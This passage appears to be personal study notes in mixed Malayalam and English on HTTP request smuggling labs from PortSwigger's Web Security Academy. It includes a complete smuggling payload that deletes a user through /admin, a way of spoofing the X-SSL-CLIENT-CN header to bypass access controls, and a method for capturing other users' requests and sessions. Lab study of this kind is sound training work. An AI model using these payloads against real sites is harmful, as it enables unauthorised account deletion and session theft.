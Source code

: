 -->chelapo kore pravisham send adikendi varum ok
-->ini ee smuglled request ile GET /admin maati `GET /admin/delete?username=carlos HTTP/1.1`   ennakiyal carlos inte account delete aakum.so lab solve aayi
-->final payload :

```http
POST / HTTP/1.1
Host: 0a8b0016043ddba9c0ae0ad300e800ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-DijiZK-Ip: 127.0.0.1
Content-Length: 10
Connection: close

x=1
```

==============================================================

### Bypassing client side filters
--> chela samayangalil servers clientumayi(browser) authenticate chyunath certificate vechitan. This certificate contains their "common name" (CN), which should match their registered hostname. The client can then use this to verify that they're talking to a legitimate server belonging to the expected domain
-->Some sites go one step further and implement a form of mutual TLS authentication, where clients must also present a certificate to the server. In this case, the client's CN is often a username or suchlike, which can be used in the back-end application logic as part of an access control mechanism
-->For example, front-end servers sometimes append a header containing the client's CN to any incoming requests:

```http
GET /admin HTTP/1.1 
Host: normal-website.com 
X-SSL-CLIENT-CN: carlos
```
-->As these headers are supposed to be completely hidden from users, they are often implicitly trusted by back-end servers. Assuming you're able to send the right combination of headers and values, this may enable you to bypass access controls
-->ivide namuk ee X-SSL-CLIENT-CN enna header il admin, administrator ennoke itt test chyam

==============================================================

### Capturing other users' requests :
-->namuk mattu users inte request steal chyan patum.athayath namal oru smauugled request undakunu enit send adikunu.ini matoru user aa page request chyumbol namuk aa request kitum
-->eg: oru comment chyuna request und.so namal aa request smuggle chyan use chyunu.so comment= enn parameter vere namal smuggled request il iduka.apol namude request avide pause aayi but stop aayila.karanam application comment venam ennale nadaku.so ini matoru user GET / request edukumbol(ee GET / request inte thazhe aayan namal /post/comment smuggle chyunath) ee smuggled post request run aakum so aa user inte session namuk edukan patum.lab nokumbo onukoodi manasilakum
